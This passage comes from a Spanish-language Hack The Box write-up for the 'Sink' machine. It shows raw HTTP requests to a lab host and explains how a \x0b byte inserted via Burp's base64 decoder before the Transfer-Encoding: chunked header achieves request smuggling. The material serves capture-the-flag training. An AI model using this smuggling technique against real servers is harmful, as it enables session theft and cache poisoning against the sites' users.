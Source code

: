 ```html
POST /notes HTTP/1.1
Host: 10.10.10.225:5000
Content-Type: application/x-www-form-urlencoded                   <!-- smuggling -->
Content-Length: 251
Connection: keep-alive
Cookie: session=eyJlbWFpbCI6ImxhbnpAc2luay5odGIifQ.YDUzCA.YVpcMp8dXmocfLzRQa8HEFDUp_8

note=holas
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313burp5000_notes_req_newPOST101010225.png" style="width: 100%;"/>

Y validamos el apartado `/notes`, tenemos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313page5000_notes_res_newPOST101010225.png" style="width: 100%;"/>

**Nada :P 😂**

...

## Logramos la explotación del <u>HTTP Request Smuggling</u> [📌](#final_vuln) {#final_vuln}

Revisando de nuevo el post, nos dice que <u>muchas veces el </u>`chunked`<u> no es tomado y debemos agregarle al inicio de ese header la cadena </u>`\x0b`<u> (hexadecimal) </u>**<u>para que lo interprete</u>**. 

Después de jugar con él, intentando agregarlo a la petición, obteníamos lo mismo. Peeeeeeero era porque lo estaba haciendo mal. 

Si pasamos el valor hexadecimal a **base64** externamente (nosotros mismos) y después en **Burp** usamos el convertidor interno de **base64** al valor original, ahí si logramos ver el `\x0b` reflejado:

1. Pasar `0b` a **base64**: `Cw==`.
2. Pegar `Cw==` en la petición, seleccionarlo y decodearlo de **base64** a valor original:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313burp5000_notes_req_newPOST101010225_0b_1.png" style="width: 100%;"/>

Seleccionamos la cadena `Cw==` y hacemos:

```html
Clic derecho > Convert-Selection > Base64 > Base64-decode (o de la forma corta: CTRL + SHIFT + B)
```

Y obtenemos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/sink/313burp5000_notes_req_newPOST101010225_0b_done.png" style="width: 100%;"/>

```html
POST /notes HTTP/1.1
Host: 10.10.10.225:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded                        <!-- original -->
Content-Length: 259
Origin: http://10.10.10.225:5000
DNT: 1
Connection: keep-alive
Referer: http://10.10.10.225:5000/notes
Cookie: session=eyJlbWFpbCI6ImxhbnpAc2luay5odGIifQ.YDUzCA.YVpcMp8dXmocfLzRQa8HEFDUp_8
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Transfer-Encoding:chunked

```